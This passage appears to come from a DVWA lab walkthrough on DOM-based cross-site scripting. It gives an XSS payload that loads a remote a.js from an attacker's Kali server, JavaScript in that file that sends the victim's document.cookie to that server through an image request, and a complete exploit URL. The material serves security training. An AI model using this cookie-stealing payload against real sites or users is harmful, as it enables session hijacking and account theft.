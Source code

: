 <img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/screenshots/xssdwebserver.png" width="500">

We'll need this for a very important reason - we can log every single request made to the server. This holds true regardless of the validity of the URL. If we can find a way to extract information by building a URL with the info and requesting it from our web server, we should find the stolen information in our server logs. Let's illustrate how this will work below.

I personally like to build a malicious URL that points to an existing Javascript file on my webserver. That valid Javascript file will actually hold my payload (in this case, an invalid URL request built with the stolen cookie info). I like this approach since it allows me to arbitrarily modify the payload with having to change the exploit itself. Plus, if we name the file something small, like "a.js", we can avoid many content length restrictions.

<h4><b>Building The Exploit</b></h4>

We won't need to spend much time on this one. All we need to do is specify a source file (which we'll call "a.js") in the XSS exploit. And to stay stealthy, we won't cause a visible <code>alert</code> anymore. Here's what we get:

<code>&#60;script src="http://[your_Kali_IP]:9999/a.js"&#62;&#60;/script&#62;</code>

When this script gets executed, it will try to pull the "a.js" file from your Python web server root, then will execute any code in that file.

<h4><b>Building the Payload</b></h4>

As I said above, we need to find a way to take the stolen cookie, build a URL with that information, then request it from our web server. There are a couple of ways to do so, but I use the following code:

<code>function getimg() {</code>
<br>
  <code>var img = document.createElement('img');</code>
  <br>
  <code>img.src = 'http://[your_Kali_IP]:9999/' + document.cookie;</code>
  <br>
  <code>document.body.appendChild(img);</code>
  <br>
<code>}</code>
<br><br>
<code>getimg();</code>

First, we define the function <code>getImg()</code>. The first line of the function defines a new <code>img</code> web page element and stores that in the variable <code><b>img</b></code>. We specify the source of this new element as a fake web page with a name set to whatever the user's cookie is set to. It then states that the page is hosted on our temporary web server. It then puts the final <code>img</code> element at the bottom of the web page. Finally, we execute the function.

Let's save this file as "a.js" and place it in our web server root.

<h4><b>Running the Payload</b></h4>

Now let's put it all together. Here's our final exploit.

<b>http&#58;//dvwa/dvwa/vulnerabilities/xss_d/?default=&#60;script src="http://</b>[your_Kali_IP]<b>:9999/a.js"&#62;&#60;/script&#62;</b>

